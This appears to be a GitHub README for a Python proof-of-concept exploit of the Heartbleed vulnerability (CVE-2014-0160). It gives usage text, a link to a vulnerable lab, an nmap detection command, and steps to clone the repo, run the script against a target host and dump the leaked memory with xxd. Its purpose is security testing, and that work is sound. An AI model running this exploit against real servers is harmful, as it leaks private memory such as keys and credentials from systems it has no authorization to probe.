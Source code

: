 # heartbleed
A Heartbleed (CVE-2014-0160) PoC in Python 3

```
usage: python3 heartbleed.py [-h] host [port]

Heartbleed PoC

positional arguments:
  host        hostname or IP address
  port        TCP port number (default IS 443)

options:
  -h, --help  show this help message and exit
```

1. If you want a vulnerable server to test, you can set it up from [here](https://github.com/jas9reet/heartbleed-lab "Heartbleed lab")
2. Test for heartbleed vulnerability using nmap:
```
nmap -v -p8443 --script ssl-heartbleed $IP
```

3. Install the script if you haven't already, change to directory:
```
git clone https://github.com/H4R335HR/heartbleed/ && cd heartbleed
```
  
4. Run the script:
```
python3 heartbleed.py $IP 8443
```
5. After running the script, check the output file using xxd to see the results:
```
xxd response_data.bin
```
